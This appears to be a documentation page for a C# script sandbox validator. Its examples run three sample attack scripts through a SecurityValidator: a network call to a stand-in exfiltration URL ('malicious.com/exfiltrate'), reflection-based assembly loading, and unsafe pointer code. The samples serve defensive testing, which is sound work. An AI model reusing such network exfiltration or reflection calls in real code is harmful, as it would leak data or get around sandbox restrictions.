 ## Threat Detection Examples

### Example 6: Detecting Common Attack Patterns

```csharp
var permissions = ScriptPermissions.CreateStandard();
var validator = new SecurityValidator(permissions);

// Attack 1: Network access attempt
string networkAttack = @"
using System.Net;

public class NetworkAttack
{
    public static void Execute()
    {
        var client = new WebClient();
        client.DownloadString(""http://malicious.com/exfiltrate"");
    }
}
";

var result = validator.Validate(networkAttack);
Console.WriteLine($"Network attack detected: {result.Violations.Count} violations");

// Attack 2: Reflection abuse
string reflectionAttack = @"
using System.Reflection;

public class ReflectionAttack
{
    public static void Execute()
    {
        var assembly = Assembly.Load(""System.Management"");
        // Attempt to access restricted APIs
    }
}
";

result = validator.Validate(reflectionAttack);
Console.WriteLine($"Reflection attack detected: {result.Violations.Count} violations");

// Attack 3: Unsafe code
string unsafeAttack = @"
public class UnsafeAttack
{
    public static unsafe void Execute()
    {
        int* ptr = stackalloc int[100];
        // Attempt to corrupt memory
    }
}
";

result = validator.Validate(unsafeAttack);
Console.WriteLine($"Unsafe code detected: {result.Violations.Count} violations");
```
